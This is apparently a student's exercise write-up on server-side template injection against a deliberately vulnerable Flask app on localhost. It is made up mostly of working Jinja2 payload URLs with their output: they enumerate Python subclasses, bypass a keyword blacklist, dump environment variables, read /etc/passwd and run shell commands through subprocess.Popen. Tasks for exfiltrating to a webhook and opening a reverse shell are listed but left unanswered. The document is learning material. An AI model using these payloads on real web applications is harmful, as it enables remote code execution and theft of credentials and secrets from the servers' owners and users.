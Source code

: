 Q: Give unique ssti payloads for the given cases while following these conditions:

```
from flask import Flask, request, render_template_string

app = Flask(__name__)


@app.route("/")
def home():
    if request.args.get("c"):
        return render_template_string(request.args.get("c"))
    else:
        return "Hello, send someting inside the param 'c'!"


if __name__ == "__main__":
    app.run()
```

- Return the index of urllib in subclasses()
  
```http://127.0.0.1:5000/?c={{().__class__}}``` : ```<class 'tuple'>``` : class method returns the class of the object that is an empty tuple over here

```http://127.0.0.1:5000/?c={{().__class__.__base__}}``` : ```<class 'object'>```

```http://127.0.0.1:5000/?c={{().__class__.__base__.__subclasses__()}}``` : ```[<class 'type'>, <class 'async_generator'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>``` : returns all the subclasses for that object<br>

Now to get the index at which the urllib is present, we can copy the list and iterate through it or to directly run it in the browser we can use a for loop:
```
{% set subclasses = ().__class__.__base__.__subclasses__() %}
{% for i in range(subclasses|length) %}
  {% if 'urllib' in subclasses[i].__module__ %}
    {{ i }}
  {% endif %}
{% endfor %}
```
If this is our payload, then the for loop iterates through the subclasses list and prints the index wherever it finds urllib mentioned
url encoding the block we get the payload as: 
PAYLOAD:
```
%7B%25%20set%20subclasses%20%3D%20().__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20for%20i%20in%20range(subclasses%7Clength)%20%25%7D%0A%20%20%7B%25%20if%20'urllib'%20in%20subclasses%5Bi%5D.__module__%20%25%7D%0A%20%20%20%20%7B%7B%20i%20%7D%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

![image](https://github.com/poorvi1910/Web/assets/146640913/433ab890-0a54-4476-a97c-725822933382)

FOR BLACKLIST: 
```
http://127.0.0.1:5000/?c={{%20(dict.mro()[-1]|attr(%22\x5f\x5fsubclasses\x5f\x5f%22))()%20}}
```

- Get name of current python flask script


- Get all the current envvars
```http://127.0.0.1:5000/?c={{config}}```: ```<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None,```
```http://127.0.0.1:5000/?c={{config.__class__}}``` : ```<class 'flask.config.Config'>```
```http://127.0.0.1:5000/?c={{config.__class__.from_envvar}}```: ```<function Config.from_envvar at 0x7facac89bf60>```
```http://127.0.0.1:5000/?c={{config.__class__.from_envvar[%22__globals__%22]}}```: ```{'__name__': 'flask.config', '__doc__': None, '__package__': 'flask', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7facac8a3190>, ...```

PAYLOAD:
```
http://127.0.0.1:5000/?c={{config.__class__.from_envvar[%22__globals__%22][%22__builtins__%22][%22__import__%22](%22os%22).environ}}
```
![image](https://github.com/poorvi1910/Web/assets/146640913/de0b5534-d6a5-41aa-9c42-c4d4493f7a61)

- Read a local file

```http://127.0.0.1:5000/?c={{%20request.__class__}}``` : ```<class 'flask.wrappers.Request'>```

```http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data}}``` : ```<function Request._load_form_data at 0x7facac724680>```

```http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data.__globals__}}``` : ```{'__name__': 'flask.wrappers', '__doc__': None, '__package__': 'flask', '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7facac720f90>...```

```http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data.__globals__.__builtins__}}``` : ```{'__name__': 'builtins', '__doc__': "Built-in functions, types, exceptions, and other objects.\n\nThis module provides direct access to all 'built-in'\nidentifiers of Python...```

PAYLOAD:
```
http://127.0.0.1:5000/?c={{%20request.__class__._load_form_data.__globals__.__builtins__.open(%22/etc/passwd%22).read()%20}}
```
![image](https://github.com/poorvi1910/Web/assets/146640913/dba77ed3-b558-41bc-8740-12d3d668d256)


- Run a command

```http://127.0.0.1:5000/?c={{().__class__}}``` : ```<class 'tuple'>``` : class method returns the class of the object that is an empty tuple over here

```http://127.0.0.1:5000/?c={{().__class__.__mro__[1].__subclasses__()[568]}}``` : ```<class 'subprocess.Popen'>``` : selecting the popen subprocess

```http://127.0.0.1:5000/?c={{().__class__.__mro__[1].__subclasses__()[568](%27cat%20try.py%27,%20shell=True,%20stdout=-1).communicate()}}``` :  running cat command on a python file to read it

PAYLOAD:
```
http://127.0.0.1:5000/?c={{().__class__.__mro__[1].__subclasses__()[568](%27cat%20try.py%27,%20shell=True,%20stdout=-1).communicate()}}
```
![image](https://github.com/poorvi1910/Web/assets/146640913/a516db8b-213f-4e58-8650-585cac3a95de)

- Send the contents of etc pass to  awebhook


- Create a reverse shell, save your work and run the command yes on the rev shell


- Re-write everything above to work against this blacklist = [    "import",    "open",    "module",    "write",    "load",    "read",    "eval",    "exec",    "system",    "os",    "_",    #",    ',    "]
